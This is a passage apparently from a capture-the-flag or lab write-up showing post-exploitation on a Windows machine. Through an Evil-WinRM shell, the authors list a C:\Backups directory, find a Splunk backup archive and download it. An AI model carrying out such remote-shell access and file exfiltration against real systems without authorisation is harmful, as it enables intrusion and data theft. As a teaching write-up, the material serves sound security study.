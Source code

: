 ![](images/2025-03-30_09-14_bloodhound_edward_martin_group_memberships.png)

On the box we found a `Backups` directory on `C:\>` and inside a file called `splunk_backup_2024-08-06.zip`.

```powershell
*Evil-WinRM* PS C:\Backups> dir


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/5/2025  12:33 AM                Splunk
```

```powershell
*Evil-WinRM* PS C:\Backups\Splunk> dir


    Directory: C:\Backups\Splunk


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/6/2024   3:22 PM       27445566 splunk_backup_2024-08-06.zip
```

We downloaded the file using the `built-in` feature of `Evil-WinRM` to download files.

```powershell
*Evil-WinRM* PS C:\Backups\Splunk> download splunk_backup_2024-08-06.zip
                                        
Info: Downloading C:\Backups\Splunk\splunk_backup_2024-08-06.zip to splunk_backup_2024-08-06.zip
                                        
Info: Download successful!
```
